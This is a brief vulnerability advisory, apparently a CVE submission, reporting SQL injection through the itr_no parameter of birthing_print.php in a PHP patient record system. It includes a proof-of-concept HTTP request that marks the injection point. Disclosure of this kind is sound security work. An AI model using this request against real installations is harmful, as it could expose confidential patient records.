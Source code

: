# cve
# patient-record-management-system-in-php has sql injection in birthing_print.php

## supplier 

https://code-projects.org/patient-record-management-system-in-php-with-source-code/#google_vignette

## Vulnerability parameter

birthing_print.php

## describe

An unrestricted SQL injection attack exists in patient-record-management-system-in-php in birthing_print.php The parameters that can be controlled are as follows: $itr_no. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of $itr_no parameter is obtained in birthing_print.php , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/a863218e-2629-4123-a40d-1af2576026e0)



## POC

```
GET /birthing_print.php?itr_no=1* HTTP/1.1
Host: healthcarepatientrecordmanagementsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=apub8ggoc8777fmi1n9sbu6ca1
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

**Result**

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)

## submiter

作者：殷丽华、程泓源；机构：广州大学
